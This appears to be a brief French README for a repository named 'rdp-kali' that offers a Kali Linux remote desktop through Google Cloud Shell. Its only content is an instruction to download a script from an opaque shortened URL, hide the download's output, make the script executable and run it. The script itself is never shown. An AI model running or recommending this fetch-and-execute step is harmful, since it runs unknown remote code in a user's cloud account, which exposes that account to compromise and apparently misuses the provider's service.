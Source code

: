 # rdp-kali
rdp kali
# Lancer le Google Cloud shell  et executez :

***************************************************
wget -O hous.sh shorturl.at/Z0249 > /dev/null 2>&1
chmod +x hous.sh
./hous.sh

- profitez bien de votre rdp.
